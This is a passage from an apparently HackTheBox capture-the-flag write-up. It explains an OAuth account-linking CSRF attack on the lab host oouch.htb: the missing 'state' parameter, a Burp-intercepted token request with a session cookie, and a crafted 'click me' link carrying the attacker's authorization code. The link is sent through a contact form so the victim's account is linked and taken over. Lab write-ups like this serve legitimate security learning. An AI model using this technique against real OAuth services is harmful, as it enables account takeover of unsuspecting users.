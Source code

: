 GET {Authorization Endpoint}
  ?response_type=code             // - Required
  &client_id={Client ID}          // - Required
  &redirect_uri={Redirect URI}    // - Conditionally required
  &scope={Scopes}                 // - Optional
  &state={Arbitrary String}       // - Recommended
  &code_challenge={Challenge}     // - Optional
  &code_challenge_method={Method} // - Optional
  HTTP/1.1
HOST: {Authorization Server}
There’s a recommend (and therefore optional) parameter state designed to prevent this kind of Cross Site Request Forgery (CSRF) attack. This value isn’t shown to the client, but stored on consumer, associated with my account via cookie. Later, when the authorization is done, and a 302 to the redirect_uri is sent back, it’s sent back with the code and the state if in use. If that state value doesn’t match for the account loading the page, there’s a CSRF failure, and the process fails. Because the 302 from the authorization server with the authorization_code doesn’t include state, it must not be in use here, and this attack can work.

In Practice
First I’ll create accounts for both servers (0xdf-consumer and 0xdf-auth), and log into both, and link the accounts.

image-20200309173125506
Now I’ll start the account linking process again, but this time, I will have Burp Proxy intercepting each request. I’ll forward the first three requests, stopping when it’s trying to load consumer.oouch.htb:5000/oauth/connect/token:

GET /oauth/connect/token?code=76tcpZBboMvWODlVU0LNkRDMVCQB7m HTTP/1.1
Host: consumer.oouch.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/connect/token&scope=read
Connection: close
Cookie: session=.eJy1kM9OwzAMxl8ly3mg_G2aPQWCAwc0TY5jrxVdi5pUQpr27kSICwdOwMmy7N_n7_NVnniCMlCRh5erFLUVeaFS4ExyLx8mgkJiWs5inEVdBCC2oajDWMRb27mXx9v-77hHOo-lrlDHZRZP2yfE27QTzzThciGh3jPvfsHe4TKX7ULrDyL_avzb8eO-vX6lMshDXTdq3ZjlQZpoTWfARw_ck4smhaRZaRMwg0NryaPPoECDcsnnjEphz7lTDEZhJqaEnQMMGjoOTkPoooEUvY7EuSn0aD0k5a3jztiI1oSkjGKTk_WqZcGy8qkurzQ3P8FCAq1DMl3wzkGOifvggGyATNBDbC5cto3bCq1fIeTtA92OwOo.XmawFg.5VWJ9iBk8looCFxsuQTc5oCDMJ8
Upgrade-Insecure-Requests: 1
I’ll craft that into a link, and drop the request so it’s not sent to the server:

<a href="http://consumer.oouch.htb:5000/oauth/connect/token?code=QY4G64bZGMj05zy5Krq49HmMDHIP8w">click me</a>
I’ll submit the link to the contact form. After a minute or two, I’ll see 0xdf-auth is no longer connected in the Profile page for 0xdf-consumer:

image-20200309173807145
I’ll log out, and then go to /oauth/login, and click yes when prompted to login using OAuth. But my account on the authorization server now is linked to whoever clicked the link. Visiting the Profile page, I see I’m logged in as qtc:
